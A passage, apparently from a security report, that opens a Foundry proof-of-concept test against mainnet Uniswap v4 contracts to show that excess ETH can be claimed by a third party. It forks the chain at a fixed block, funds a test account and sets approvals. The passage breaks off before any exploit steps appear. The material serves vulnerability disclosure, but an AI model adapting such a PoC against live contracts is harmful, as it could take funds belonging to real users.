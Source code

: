 Within the newly created file, insert the following content:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import {Actions} from "v4-periphery/src/libraries/Actions.sol";
import {IStateView} from "v4-periphery/src/interfaces/IStateView.sol";
import {Currency} from "v4-core/types/Currency.sol";
import {PoolKey} from "v4-core/types/PoolKey.sol";
import {PoolId} from "v4-periphery/lib/v4-core/src/types/PoolId.sol";
import {PositionInfo, PositionInfoLibrary} from "v4-periphery/src/libraries/PositionInfoLibrary.sol";

interface IPositionManager {
    function modifyLiquidities(bytes calldata unlockData, uint256 deadline) external payable;
    function poolKeys(bytes25) external returns(PoolKey memory);
    function positionInfo(uint256) external returns(PositionInfo);
    function nextTokenId() external returns(uint256);
}

interface IAllowanceTransfer {
    function approve(address,address,uint160,uint48) external;
}

interface IERC20 {
    function approve(address,uint) external;
}

contract PoC is Test {
    IPositionManager posm;
    IStateView sv;
    IAllowanceTransfer permit2;
    address alice;

    bytes32 poolId;
    address usdc;

    function setUp() external {
        vm.createSelectFork(getChain(1).rpcUrl, 22273384);

        alice = makeAddr("alice");
        posm = IPositionManager(0xbD216513d74C8cf14cf4747E6AaA6420FF64ee9e);
        sv = IStateView(0x7fFE42C4a5DEeA5b0feC41C94C136Cf115597227);
        permit2 = IAllowanceTransfer(0x000000000022D473030F116dDEE9F6B43aC78BA3);
        poolId = 0x21c67e77068de97969ba93d4aab21826d33ca12bb9f565d8496e8fda8a82ca27; // eth-usdc
        usdc = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;

        vm.deal(alice, 1 << 128);
        deal(usdc, alice, 1 << 128);
        
        assertGt(address(posm).code.length, 0);

        vm.prank(alice); IERC20(usdc).approve(address(permit2), type(uint).max);
        vm.prank(alice); permit2.approve(usdc, address(posm), type(uint160).max, type(uint48).max);
    }

    function test_excess_eth_is_claimable_by_third_party() external {
        // Setup params to add liq
        int24 tickLower = -202290;
        int24 tickUpper = -202270;
        uint256 liq = 1e18;
        uint256 max0 = 1e21;
        uint256 max1 = 1e10;
```